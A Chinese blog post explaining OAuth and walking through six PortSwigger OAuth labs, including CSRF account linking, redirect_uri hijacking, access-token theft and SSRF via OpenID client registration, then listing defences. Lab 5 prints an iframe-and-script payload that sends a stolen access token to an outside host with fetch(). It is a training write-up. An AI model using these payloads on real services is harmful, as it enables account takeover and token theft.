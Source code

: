 ```yaml
---
layout:     post
title:      "OAuth安全学习——流程篇"
subtitle:   ""
date:       2021-01-12 10:40:00
author:     "kuron3k0"
header-img: "img/home-bg-o.jpg"
tags:
    - OAuth
    - Web
---
```


OAuth是如今一种比较流行的授权机制，虽然已经出现很久了，但是一直没有详细了解过攻击手法，今天就来学习一下。

## OAuth简介
一个简单的图解，侵删
![](/img/in-post/oauth-security/oauth.jpg)

[阮一峰大佬的博客](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)说的挺清晰的了，这里就不细讲了，就用授权码的方式举一个OAuth实际应用的例子。


下面是一个用到GitHub OAuth的地方：`https://sec.today`
![](/img/in-post/oauth-security/1.png)

登陆成功，省去了重新注册的时间
![](/img/in-post/oauth-security/2.png)

看一下相关请求是什么，点击`用GitHub登录`后，从浏览器发起了第一个请求：`https://sec.today/oauth/login/github/`

重定向到GitHub进行登录：`https://github.com/login/oauth/authorize?client_id=dad4bf1a56b861bac810&redirect_uri=https%3A%2F%2Fsec.today%2Foauth%2Fcomplete%2Fgithub%2F%3Fredirect_state%3DH2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&response_type=code`

在GitHub登录完成后，返回授权码`code`，附在上一步填的`redirect_uri`后面：`https://sec.today/oauth/complete/github/?redirect_state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&code=1c02c1234d182db57bd5&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw`

最后，`sec.today`带着授权码拿到我们`GitHub`账号的信息，我们就用`GitHub`的身份完成了在`sec.today`上的登陆



## PortSwigger靶场
### 【LAB 1】Authentication bypass via OAuth implicit flow

题目要求：在`implicit`形式的OAuth中进行认证绕过

`implicit`方式的所有操作都是在客户端完成，最后认证完成得到的`access_token`也是会返回到客户端，所以只需要把`access_token`绑定为任意需要操作的用户即可

点击登录
![](/img/in-post/oauth-security/3.png)

返回`access_token`
![](/img/in-post/oauth-security/4.png)

把`access_token`和任意用户绑定
![](/img/in-post/oauth-security/5.png)


### 【LAB 2】Forced OAuth profile linking

题目要求：获取`admin`权限（`admin`已登录第三方应用，且会访问我们构造的任何链接）

所以很明显是要`CSRF`了，根据OAuth的流程可以知道，我们要做的就是用我们的OAuth信息去绑定`admin`的第三方应用的账号

首先先用我们自己的账号进行OAuth登录，可以看到返回了一个`code`，但这个时候要把这个请求拦截下来，构造完`CSRF Payload`后drop掉，然后让`admin`去访问
![](/img/in-post/oauth-security/6.png)

当`admin`访问后，完成绑定。然后我们再以自己的账号做OAuth登录，即可得到`admin`权限
![](/img/in-post/oauth-security/7.png)


### 【LAB 3】OAuth account hijacking via redirect_uri

题目要求：获取`admin`权限（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

构造`CSRF Payload`，`redirect_uri`设置为我们可控的地址
![](/img/in-post/oauth-security/8.png)

得到`admin`的`code`，直接登录
![](/img/in-post/oauth-security/9.png)

`admin`权限
![](/img/in-post/oauth-security/10.png)

### 【LAB 4】Stealing OAuth access tokens via an open redirect

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

这题跟上一题差不多，就是`redirect_uri`做了一些校验，然后OAuth用`implicit`模式了

`redirect_uri`不能任意指定了，试了几种方式似乎都不行，然后发现`/post/next`有重定向漏洞，且url路径检查可用`/../`绕过，这个问题解决；然后系统的`access_token`是放在url的`fragment`中的，所以我们的payload需要把它提取出来，最终结果如下：
![](/img/in-post/oauth-security/11.png)

`admin`访问后得到`access_token`
![](/img/in-post/oauth-security/12.png)

用`access_token`拿到`admin`的`apikey`
![](/img/in-post/oauth-security/13.png)

### 【LAB 5】Stealing OAuth access tokens via a proxy page

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

url校验沿用了上一题的方式，然后重定向漏洞没有了。注意到评论的页面`/post/comment/comment-form`，有一个向`父页面`发送自己url的操作，所以如果我们可以让`admin`访问OAuth登录的链接，就会把`access_token`发到评论页面，然后评论页面就会把`token`传到我们的恶意父页面
![](/img/in-post/oauth-security/14.png)

构造payload
```html
<iframe src="https://ac431f851f15ecdb807b43d102b500f3.web-security-academy.net/auth?client_id=j77c7udyz47s8jpf2mwu7&redirect_uri=https://acc41f8d1ff7ecd9800b438f009000bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener("message",function(e){
        var token=e.data.data;
        fetch("https://aca51ffb1f26ec2680814365018400cb.web-security-academy.net/"+btoa(token));
    },false);
</script>
```
接收到数据
![](/img/in-post/oauth-security/15.png)

解码得到token
![](/img/in-post/oauth-security/16.png)


### 【LAB 6】SSRF via OpenID dynamic client registration

题目要求：拿到AWS的`SecretAccessKey`

根据题目提示，访问`/.well-known/openid-configuration`（类似的url还有`/.well-known/oauth-authorization-server`和`/.well-known/jwks.json`），得到客户端动态注册的链接
![](/img/in-post/oauth-security/17.png)

翻了下一些有SSRF可能的url参数，`redirect_uri`是本地触发的；`jwks_uri`是服务端取秘钥的，应该不存在返回信息给我们的情况；剩下的`logo_uri`最有可能
![](/img/in-post/oauth-security/18.png)

注册完后进行Openid登录，看到果然有一个图片，而且明显内容不是本地请求的
![](/img/in-post/oauth-security/19.png)

得到`SecretAccessKey`
![](/img/in-post/oauth-security/20.png)

题目还提到Openid请求中，有的`provider`是可以让`client`提供一个`request_uri`自己去取参数的（`request_uri_parameter_supported`是`true`），如果没做校验的话，也是会导致SSRF
![](/img/in-post/oauth-security/21.png)

形式如下
![](/img/in-post/oauth-security/22.png)

## 防御
OAuth服务提供者需要让第三方应用提供url的白名单、用`state`等参数防止类CSRF攻击、确认最后请求的`scope`是跟最开始的请求是一致的

第三方应用也要用`state`防止CSRF、注意`code`通过`Referer`泄漏，此外移动端、桌面应用可能会包含`client_secret`，所以需要`PKCE`对`code`进行保护

[ietf的草稿](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)中还提到了一些其他的攻击场景，像`PKCE
 downgrade attack`、`307 redirection`等等，有合适的机会再研究一下

## 参考
- [https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)
- [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
- [http://www.ruanyifeng.com/blog/2019/04/oauth_design.html](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)
- [https://portswigger.net/web-security/oauth/openid](https://portswigger.net/web-security/oauth/openid)